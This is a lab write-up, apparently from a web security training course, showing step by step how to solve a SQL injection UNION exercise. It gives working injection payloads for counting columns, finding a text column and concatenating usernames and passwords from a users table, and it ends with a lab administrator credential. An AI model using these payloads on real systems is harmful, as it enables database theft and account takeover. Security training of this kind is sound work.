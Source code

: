 # Lab: SQL injection UNION attack, retrieving multiple values in a single column.

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

# The database contains a different table called `users`, with columns called `username` and `password`.

# To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL--
```
- there are two columns.

# check which column contain text
```
'UNION SELECT NULL,'def'--
or
'+UNION+SELECT+NULL,'abc'--
'UNION SELECT 'abc',NULL--
```
- Only one contains text.(first one)

## use this payload to reterive user name and password
```
'UNION SELECT NULL,username || '~' || password FROM users--
```
![lab_s10](Images/L10step1.png)

## use credentials of administrator to login
```
administrator~rx3ifqe7q1w4wjn8catk
```
## Lab solved


